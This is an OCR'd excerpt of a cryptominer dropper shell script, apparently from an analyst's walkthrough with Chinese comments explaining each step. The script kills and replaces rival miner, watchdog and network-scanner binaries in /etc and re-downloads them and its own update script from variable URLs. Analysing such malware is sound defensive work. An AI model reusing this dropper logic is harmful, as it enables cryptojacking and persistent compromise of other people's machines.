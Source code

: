 ```
then
filesize_config=`ls -l /etc/config.json | awk '{ print $5 }'`
#如果大小跟预设的不一致，就清洗一下sysupdate,删掉现有的config.json ，重新获取
if [ "$filesize_config" -ne "$config_size" ]
then
pkill -f sysupdate
rm /etc/config.json
downloads $config_url /etc/config.json $config_url_backup
else
echo "no need download"
fi
else
downloads $config_url /etc/config.json $config_url_backup
fi
 
# 检查有没有sysupdate,如果有则检查是否是自己人,不是就杀掉,换成自己人，以免自己的努力给敌人做了嫁衣;
# 如果不存在就重新下载
if [ -f "/etc/sysupdate" ]
then #此处是filesize1
filesize1=`ls -l /etc/sysupdate | awk '{ print $5 }'`
if [ "$filesize1" -ne "$miner_size" ]
then
pkill -f sysupdate
rm /etc/sysupdate
downloads $miner_url /etc/sysupdate $miner_url_backup
else
echo "not need download"
fi
else
downloads $miner_url /etc/sysupdate $miner_url_backup
fi
 
# 原理跟上面一样,略
if [ -f "/etc/sysguard" ]
then
filesize1=`ls -l /etc/sysguard | awk '{ print $5 }'`
if [ "$filesize1" -ne "$watchdog_size" ]
then
pkill -f sysguard
rm /etc/sysguard
downloads $watchdog_url /etc/sysguard $watchdog_url_backup
else
echo "not need download"
fi
else
downloads $watchdog_url /etc/sysguard $watchdog_url_backup
fi
 
# 穿插一下，更新自己的执行脚本
downloads $sh_url /etc/update.sh $sh_url_backup
 
# 原理跟上面一样,略
if [ -f "/etc/networkservice" ]
then # 此处变成了filesize2 ，莫名其妙
filesize2=`ls -l /etc/networkservice | awk '{ print $5 }'`
if [ "$filesize2" -ne "$scan_size" ]
then
pkill -f networkservice
rm /etc/networkservice
downloads $scan_url /etc/networkservice $scan_url_backup
else
echo "not need download"
fi
```